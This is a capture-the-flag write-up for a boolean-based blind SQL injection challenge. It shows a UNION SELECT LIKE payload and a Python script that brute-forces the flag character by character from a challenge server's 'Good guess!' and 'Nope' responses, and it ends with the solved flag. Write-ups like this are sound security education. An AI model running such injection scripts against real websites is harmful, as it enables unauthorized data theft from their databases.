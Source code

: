 # Why lie: Blind SQL injection (500 points)

![Alt text](images/image.png)

Given the script shows that it will output only Good guess! and Nope if our sql statement query fetches any data or not. So we can use blind sql injection to get the flag by boolean based.

![Alt text](images/image-1.png)

Using cyberfox with hackbar extension we can easily make a payload. The payload above was showed as an example from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md). 

Blind SQL injection process:
- Find the number of columns
- Find the table name
- Find the column name
- Analyze what we can do next

As we have already found the number of columns and the table name is `secret`.

![Alt text](images/image-2.png)

Finding the column name needs a bit of guessing. I tried `message` but shows error so I tried `flag` and it worked.

![Alt text](images/image-3.png)

Now we can use the column name to get the flag by bruteforcing it with output based "Good guess!" and "Nope".

The payload: `guess=1 UNION SELECT 1 FROM secret where flag like "UDCTF{\%";`

```python
import requests
import concurrent.futures

url = "https://bluehens-blindsql.chals.io/index.php?guess=1 UNION SELECT 1 FROM secret where flag like '" 

charset = "abcdefghijklmnopqrstuvwxyz0123456789_!@#$%^&*()-=+{}[]|;:'\",.<>?/`~"

flag = "UDCTF{"

def check_character(char):
    payload = f"{url}{flag}{char}%'"
    response = requests.get(payload)
    return "Good guess!" in response.text

with concurrent.futures.ThreadPoolExecutor() as executor:
    while True:
        futures = [executor.submit(check_character, char) for char in charset]
        concurrent.futures.wait(futures)
        
        found = False
        for char, future in zip(charset, futures):
            if future.result():
                flag += char
                found = True
                print(flag)
                break
        
        if not found or flag[-1] == "}":
            break

print("Flag:", flag)
```

**FLAG:** UDCTF{l1k3_a_b4t}